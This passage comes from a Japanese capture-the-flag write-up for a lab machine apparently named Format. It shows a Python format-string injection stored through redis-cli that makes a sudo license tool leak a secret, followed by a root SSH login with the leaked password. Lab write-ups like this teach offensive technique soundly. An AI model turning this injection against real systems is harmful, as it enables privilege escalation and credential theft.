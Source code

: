 ```
cooper@format:~$ redis-cli -s /var/run/redis/redis.sock
redis /var/run/redis/redis.sock> HSET testC username {license.__init__.__globals__[secret]}
(integer) 1
redis /var/run/redis/redis.sock> HSET testC first-name a
(integer) 1
redis /var/run/redis/redis.sock> HSET testC last-name a
(integer) 1
```

実行してみると、`secret` が `unCR4ckaBL3Pa$$w0rd` だと判明しました。

```
cooper@format:~$ sudo license -p testC

Plaintext license key:
------------------------------------------------------
microblogunCR4ckaBL3Pa$$w0rdcchh!uRu:,7;TaLNRA*Wz4GPaCF"|Q##Tz=EZ?5Baa

Encrypted license key (distribute to customer):
------------------------------------------------------
gAAAAABlGVq3hiJu-p7y7Xwwqsu9DBwWnRbU3ioi3XgTI0h0zJZ662x4szk4JkBpIpuyPgdj9ltk3vhS5E7LpyackWAguBFDX_aswbCbeOMEz_q6CZmTcgAi9qO_ndDhhGmUvjv3SrjquBvScuw2MQ1FOCcGrAP1EaIGjwkrSAuNn_2Q1l1ILDg=
```

得られた `secret` をパスワードにすると、`root` に SSH 接続できました。

```
┌──(kali㉿kali)-[~]
└─$ ssh root@10.10.11.213
root@10.10.11.213's password:
Linux format 5.10.0-22-amd64 #1 SMP Debian 5.10.178-3 (2023-04-22) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Oct  1 03:03:00 2023 from 10.10.16.111
root@format:~# ls
license  reset  root.txt
```

## 終わりに

全体的に面白く、とても勉強になる Machine でした。攻略難易度は、ユーザフラグを手に入れるまでが難しく、それ以降は比較的簡単でした。この writeup ではあっさり書いていますが、実はユーザフラグまでの脆弱性を見つけるのに非常に苦戦し、Local File read/write に長時間気付けませんでした。どの Machine もそうですが、最初の取っ掛かりとなる脆弱性を見つけることは大変ですね 😭
